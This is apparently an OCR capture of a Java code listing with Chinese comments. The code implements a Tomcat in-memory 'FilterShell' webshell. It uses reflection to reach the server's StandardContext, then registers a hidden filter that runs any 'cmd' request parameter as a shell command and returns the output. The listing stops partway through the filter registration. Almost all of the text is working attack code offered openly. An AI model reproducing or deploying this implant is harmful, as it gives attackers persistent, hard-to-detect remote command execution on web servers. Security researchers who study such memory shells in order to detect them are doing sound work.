 ```java  
    
@WebServlet(&#34;/demoServlet&#34;)    
public class FilterShell extends HttpServlet {    
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {    
        try {    
            ServletContext servletContext = request.getSession().getServletContext();    
            Field appctx = servletContext.getClass().getDeclaredField(&#34;context&#34;);    
            appctx.setAccessible(true);    
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);    
            Field stdctx = applicationContext.getClass().getDeclaredField(&#34;context&#34;);    
            stdctx.setAccessible(true);    
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);    
    
            String Filtername = &#34;cmdFilter&#34;;    
            Field Configs = standardContext.getClass().getDeclaredField(&#34;filterConfigs&#34;);    
            Configs.setAccessible(true);    
            Map filterConfigs = (Map) Configs.get(standardContext);    
    
            Filter filter = new Filter(){    
                @Override    
                public void init(FilterConfig filterConfig) throws ServletException {    
                    System.out.println(&#34;Filter 初始构造完成&#34;);    
                }    
    
                @Override    
                public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {    
                    HttpServletRequest request = (HttpServletRequest) servletRequest;    
                    HttpServletResponse response = (HttpServletResponse) servletResponse;    
                    if(request.getParameter(&#34;cmd&#34;) != null){    
                        boolean isLinux = true;    
                        String osTyp = System.getProperty(&#34;os.name&#34;);    
                        if(osTyp !=null &amp;&amp; osTyp.toLowerCase().contains(&#34;win&#34;)){    
                            isLinux = false;    
                        }    
                        String[] cmds = isLinux ? new String[]{&#34;sh&#34;,&#34;-c&#34;,request.getParameter(&#34;cmd&#34;)} : new String[]{&#34;cmd.exe&#34;,&#34;/c&#34;,request.getParameter(&#34;cmd&#34;)};    
                        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();    
                        Scanner s = new Scanner(in).useDelimiter(&#34;\\A&#34;);    
                        String output = s.hasNext() ? s.next() : &#34;&#34;;    
                        response.getWriter().write(output);    
                        response.getWriter().flush();    
                    }    
                    filterChain.doFilter(servletRequest,servletResponse);    
                }    
    
                @Override    
                public void destroy() {    
    
                }    
            };    
        //反射获取FilterDef 设置filter等参数后，调用addFilterDef将FilterDef添加    
            Class&lt;?&gt; FilterDef = Class.forName(&#34;org.apache.tomcat.util.descriptor.web.FilterDef&#34;);    
            Constructor declaredConstructors = FilterDef.getDeclaredConstructor();    
            FilterDef o = (FilterDef) declaredConstructors.newInstance();    
            o.setFilter(filter);    
            o.setFilterName(Filtername);    
```
